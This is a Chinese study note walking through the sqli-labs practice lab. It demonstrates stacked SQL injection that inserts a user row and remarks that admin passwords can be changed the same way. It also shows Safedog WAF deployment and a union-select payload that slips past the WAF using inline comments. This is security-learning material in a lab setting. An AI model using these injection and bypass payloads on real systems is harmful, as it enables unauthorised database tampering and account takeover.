<a name="fKqm3"></a>
### 1、堆叠查询注入
stacked injections(堆叠注入)从名词的含义就可以看到应该是一堆sql语句(多条)一起执行。而在真实的运用中也是这样的，我们知道在mysql 中，主要是命令行中，每一条语句结尾加;表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做stacked injection。
```bash
mysql> select * from users; select * from emails;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | 123456     |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
| 15 | admin'#  | admin      |
+----+----------+------------+
14 rows in set (0.00 sec)

+----+------------------------+
| id | email_id               |
+----+------------------------+
|  1 | Dumb@dhakkan.com       |
|  2 | Angel@iloveu.com       |
|  3 | Dummy@dhakkan.local    |
|  4 | secure@dhakkan.local   |
|  5 | stupid@dhakkan.local   |
|  6 | superman@dhakkan.local |
|  7 | batman@dhakkan.local   |
|  8 | admin@dhakkan.com      |
+----+------------------------+
8 rows in set (0.00 sec)


```
修改代码在前台上面显示
```bash
 46 $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
 47 echo $sql;
 48 /* execute multi query */^M
 49 if (mysqli_multi_query($con1, $sql))
 50 {
 51     
 52     
 53     /* store first result set */^M
 54     if ($result = mysqli_store_result($con1))
```
执行代码,访问网站
```bash
http://10.1.1.133/Less-38/index.php?id=1 ';insert into users(id,username,password) values ( 39, 'less38 ', 'hello ')--+
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625387768823-34ccafe0-d9ff-41a2-84c3-5218f364cee8.png#clientId=u2a1adb90-9f01-4&from=paste&id=ue257207a&originHeight=479&originWidth=1407&originalType=binary&ratio=1&size=401173&status=done&style=none&taskId=ub99c6374-dbdf-4a96-868a-469b64d6725)
```bash
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | 123456     |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
| 15 | admin'#  | admin      |
| 38 | less38   | hello      |
+----+----------+------------+
15 rows in set (0.00 sec)
```
备注：堆叠注入的可以运用于创建用户由于我们使用网站用户进行注入不能查看到数据库的密码但是我们可以创建用户来登录迂回的注入数据库，但是前提是网站的管理员必须是高权限才能完全创建用户。也可以使用update更新管理员用户密码。

<a name="bRZCP"></a>
### 2、waf部署
![WAF绕过-SQL注入.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625389326994-0be8a5eb-af50-4eb1-a2ef-dc29452d2839.png#clientId=u2a1adb90-9f01-4&from=paste&id=u3e8a0735&originHeight=778&originWidth=827&originalType=binary&ratio=1&size=73483&status=done&style=none&taskId=ucf0896d6-02da-4bb3-92dd-089e5147843)<br />WAF部署-安全狗,宝塔等waf搭建部署


相关资源：<br />堆叠注入<br />[https://www.cnblogs.com/backlion/p/9721687.html](https://www.cnblogs.com/backlion/p/9721687.html)<br />安全狗与phpstudy<br />[https://blog.csdn.net/nzjdsds/article/details/93740686](https://blog.csdn.net/nzjdsds/article/details/93740686)

<a name="V6tVP"></a>
### 3、部署安全狗
```bash
[root@oldjiang ~]# wget http://download.safedog.cn/safedog_linux64.tar.gz
```
备注：一般安装的时候可能会提示一些软件没有安装，只需要按照他提示的软件安装上即可。<br />安装好之后可以在命令提示符中执行以下命令
```bash
root@37f786327043:/# service safedog start
root@37f786327043:/# service safedog status
safedog service is running
root@37f786327043:/# service safedog stop
-e stop sdsvrd server #/etc/init.d/safedog: 45: [: {1..15}: unexpected operator
root@37f786327043:/# service safedog stop
-e stop sdsvrd server #/etc/init.d/safedog: 45: [: {1..15}: unexpected operator
root@37f786327043:/# service safedog status
safedog serivce is not running
root@37f786327043:/#
```
访问网站后面带一些参数例如`' and 1=1`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627295409800-adf50b24-097d-4b07-965d-2cfe09c6afa4.png#clientId=ue915dd66-e5d8-4&from=paste&height=370&id=u79316b1f&originHeight=740&originWidth=1916&originalType=binary&ratio=1&size=92214&status=done&style=none&taskId=u9a86caed-f6a3-40ad-a6e6-93cceaf332b&width=958)<br />通过更改数据提交方式，测试后发现上面显示的`Please input the ID as parameter with numeric value `其实就是因为我们修改的方式是post而服务器接收的是get方法将数据包丢弃，所以出现这样的情况

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627297887531-dc02218e-af02-49b0-b832-324932b04a96.png#clientId=ue915dd66-e5d8-4&from=paste&height=369&id=ufd1fb0b7&originHeight=738&originWidth=1920&originalType=binary&ratio=1&size=411642&status=done&style=none&taskId=u8827919e-d9ff-4f02-aca4-53f98b1417e&width=960)<br />**将服务器的提交方式修改为**`**request**`
```bash
root@37f786327043:/var/www/html/Less-2# head -n 24 index.php |tail -3
if(isset($_REQUEST['id']))
{
$id=$_REQUEST['id'];
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627307927130-9b69e996-8661-494a-8dde-e4fd4e0e660c.png#clientId=ue915dd66-e5d8-4&from=paste&height=372&id=uafa9aa4d&originHeight=743&originWidth=1919&originalType=binary&ratio=1&size=419576&status=done&style=none&taskId=u038155f9-22c9-49c0-8088-89a7eb135d5&width=959.5)<br />获取数据库版本信息被安全狗给拦截<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627308011941-7fa1d8ae-7659-46cb-8f84-308c9fdcc327.png#clientId=ue915dd66-e5d8-4&from=paste&height=441&id=u0cbc04b8&originHeight=881&originWidth=1919&originalType=binary&ratio=1&size=128460&status=done&style=none&taskId=u058b31af-a31c-4d79-a2e0-0d73a1281bf&width=959.5)<br />绕过思路,这是mysql数据库所特有的
```bash
mysql> select database/**/();
+-------------+
| database () |
+-------------+
| security    |
+-------------+
1 row in set (0.00 sec)

mysql>

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627308466655-c7417869-2340-4129-836d-5efacd70a6c1.png#clientId=ue915dd66-e5d8-4&from=paste&height=521&id=ueb90b1cb&originHeight=1042&originWidth=1920&originalType=binary&ratio=1&size=434827&status=done&style=none&taskId=u25673a5a-719f-493a-bc85-415c4e293cc&width=960)<br />**将服务器的提交方式修改为**`GET`
```bash
root@37f786327043:/var/www/html/Less-2# head -n 24 index.php |tail -3
if(isset($_GET['id']))
{
$id=$_GET['id'];
root@37f786327043:/var/www/html/Less-2#

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627309964477-d1190d70-218c-4bc2-b020-22696c4cf028.png#clientId=ue915dd66-e5d8-4&from=paste&height=521&id=u95f354c8&originHeight=1042&originWidth=1920&originalType=binary&ratio=1&size=132278&status=done&style=none&taskId=ucfde180b-a631-4066-bc8d-d02f64e6d53&width=960)<br />原理
```bash
mysql> select * from users where id=-1/*%0a*/union/*%0a*/select/*%0a*/1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

mysql>

```
在看视频操作的时候，由于我部署的是Linux的2.4版本很多的绕过方法都没有成功，下面不在演示，等到复习的时候在深入了解。

相关资源：<br />[https://www.cnblogs.com/backlion/p/9721687.html](https://www.cnblogs.com/backlion/p/9721687.html)<br />[https://blog.csdn.net/nzjdsds/article/details/93740686](https://blog.csdn.net/nzjdsds/article/details/93740686)

